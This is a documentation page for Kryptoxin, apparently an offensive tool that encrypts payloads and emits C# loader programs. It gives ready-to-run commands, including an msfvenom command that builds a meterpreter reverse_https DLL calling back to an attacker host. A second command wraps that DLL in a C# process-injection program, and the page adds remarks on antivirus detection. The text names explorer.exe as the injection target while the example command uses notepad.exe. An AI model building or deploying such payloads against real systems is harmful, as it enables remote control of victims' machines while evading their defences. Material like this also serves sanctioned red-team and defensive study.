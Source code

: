# C\# (.NET)

Kryptoxin supports the [C# programming language](https://learn.microsoft.com/en-us/dotnet/csharp/) as an output language for templates.

## Overview

The C# language is very valuable in the security field, as it provides access to the .NET framework capabilities. Managed programs and DLLs can be written to perform system API calls while granting access to more sophisticated functions such as AES decryption.

All templates shipped with Kryptoxin can be directly pasted into [Visual Studio](https://visualstudio.microsoft.com) (we recommended versions >= `2022`) and be compiled without modification.

## Print Program (`print`)

This basic console program simply prints the UTF-8 encoded text encrypted by Kryptoxin. It uses the `System.Security.Cryptography` .NET class, which is widely supported by current Windows hosts.

``` sh
python -m kryptoxin encrypt -k s3cret --random-iv --random-salt \
--alg AES --key_size 192 --iter 5000 --lang csharp --action print
```

``` {.c# .no-copy}
using System.Security.Cryptography;

class Program // (1)!
{

    [...]
  
    static void Main(string[] args) // (2)!
    {
        [...]
    }
}
```

1. The class generated must be imported in a `C# .NET Console Program` project.
2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.

## DLL Process Injection (`load-dll`)

This .NET console program injects a DLL such a those generated by the metasploit's msfvenom utility, into the `explorer.exe` process.

??? warning "The input library must be crafted with a special DllMain() function"
    The dynamic-linked library passed in input must be specially crafted with a `DllMain()` function. The process injection method
    in this program uses the system's `LoadLibraryA()` Win32 API function, which call the above function when loading a library.

??? info "The .DLL file is written to the target's disk unencrypted"
    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.

The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.

``` sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 \
EXITFUNC=thread -f dll -o msf.dll
```

``` sh
python -m kryptoxin encrypt -k 123456 --random-iv --random-salt \
--lang csharp --action load-dll --in msf.dll --dllname=aton32.dll \
--process=notepad.exe
```
